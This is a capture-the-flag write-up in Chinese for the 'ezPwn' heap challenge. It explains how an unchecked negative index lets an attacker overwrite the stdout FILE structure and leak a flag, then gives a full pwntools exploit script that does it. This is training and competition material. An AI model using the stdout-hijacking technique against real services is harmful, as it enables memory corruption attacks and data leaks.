


# ezPwn

> a big apple

## 文件属性

|属性  |值    |
|------|------|
|Arch  |amd64 |
|RELRO |Full  |
|Canary|on    |
|NX    |on    |
|PIE   |on    |
|strip |yes   |

## seccomp rules



## 解题思路

程序从一开始就读入了flag文件并放在bss中，还给了程序基址。后面就是菜单堆题。

`edit`函数没有对`idx`做校验，可以像初赛一样改`stdout`结构体。访问`datas[-20]`修改`stdout`结构体，
此时`sizes[-20]`恰好是`(int)datas[6]`，因此分配7个堆块后就可以构造一个很大的数字。但是，
对于ubuntu，`read`的size不能超过`SIZE_MAX`，这取决于上述值的最高位，因此有50%概率导致read失败。
如果能成功read，把`stdout`的`_flags`设置成`0xfbad1800`，`_IO_write_base`设置成`&flag`，
`_IO_write_ptr`和`_IO_write_end`设置为`flag+0x30`。在函数`edit`返回，打印菜单时，
触发流刷新，同时打印出flag。

## EXPLOIT

```python
from pwn import *
context.terminal = ['tmux','splitw','-h']
context.arch = 'amd64'
GOLD_TEXT = lambda x: f'\x1b[33m{x}\x1b[0m'
EXE = './ezPwn'

def payload(lo: int):
    global sh
    if lo:
        sh = process(EXE)
        if lo & 2:
            gdb.attach(sh)
    else:
        sh = remote('10.1.101.102', 9999)
    
    def toint(v: int) -> bytes:
        return str(v).encode().ljust(8, b'\0')

    def add(size: int, data: bytes):
        sh.sendafter(b'delete', toint(1))
        sh.sendafter(b'size', toint(size))
        sh.sendafter(b'data', data)
    
    def edit(idx: int, data: bytes):
        sh.sendafter(b'delete', toint(2))
        sh.sendafter(b'index', toint(idx))
        sh.sendafter(b'data', data)

    pieBase = int(sh.recvuntil(b'\n1.add', True)[-14:], 16) - 0x1a44
    success(GOLD_TEXT(f"Leak pieBase: {pieBase:#x}"))
    flagAddr = pieBase + 0x4060

    add(0x400, b'chunk 0')
    add(0x400, b'chunk 1')
    add(0x400, b'chunk 2')
    add(0x400, b'chunk 3')
    add(0x400, b'chunk 4')
    add(0x400, b'chunk 5')
    add(0x400, b'chunk 6')
    edit(-20, flat({
        0:      0xfbad1800, # _flags hack the stdout!
        0x20:   flagAddr,   # _IO_write_base
        0x28:   flagAddr + 0x30, # _IO_write_ptr
        0x30:   flagAddr + 0x30, # _IO_write_ptr
        }, filler=b'\0'))

    sh.recvuntil(b'DASCTF{')
    flag = b'DASCTF{' + sh.recvuntil(b'}')
    success(f"Flag is: {flag.decode()}")
    sh.close()
```


